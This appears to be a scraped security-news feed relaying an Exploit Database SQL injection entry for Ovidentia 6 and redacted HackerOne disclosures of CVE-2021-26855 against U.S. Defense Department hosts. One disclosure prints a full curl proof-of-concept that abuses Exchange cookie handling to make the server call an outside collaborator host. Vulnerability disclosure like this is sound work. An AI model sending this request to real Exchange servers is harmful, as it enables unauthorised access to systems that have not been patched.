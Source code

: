 via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/49707">
https://www.exploit-db.com/exploits/49707
</a>
<blockquote>
Ovidentia 6 - 'id' SQL injection (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-03-25 10:53:29`

<blockquote>
U.S. Dept Of Defense: CVE-2021-26855 on ████████ resulting in SSRF
https://vulners.com/hackerone/H1:1119228?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

via Vulners
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1119228?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1119228?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Description:* CVE-2021-26855 exists on  ███████ resulting*** in SSRF References https://cve.mitre.org/cgi-bin/cvename.cgi?name&#61;CVE-2021-26855 https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-26855 Impact Server Side Request Frogery System Host(s)  ███████ Affected Product(s) and Version(s) CVE Numbers CVE-2021-26855 Steps to Reproduce curl -i -s -k -X $'GET' \     -H $'Host:  █████' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q&#61;0.9,image/webp,*/*;q&#61;0.8' -H $'Accept-Language: en-US,en;q&#61;0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \     -b $'X-AnonResource&#61;true; X-AnonResource-Backend&#61;burpcollaborator.net/ecp/default.flt?~3; X-BEResource&#61;localhost/owa/auth/logon.aspx?~3' \     $'https:// ████████/owa/auth/x.js' OUTPUT:  ██████████ Suggested Mitigation/Remediation...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-03-25 10:53:28`

<blockquote>
U.S. Dept Of Defense: SSRF due to CVE-2021-26855 on ████████
https://vulners.com/hackerone/H1:1119224?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss

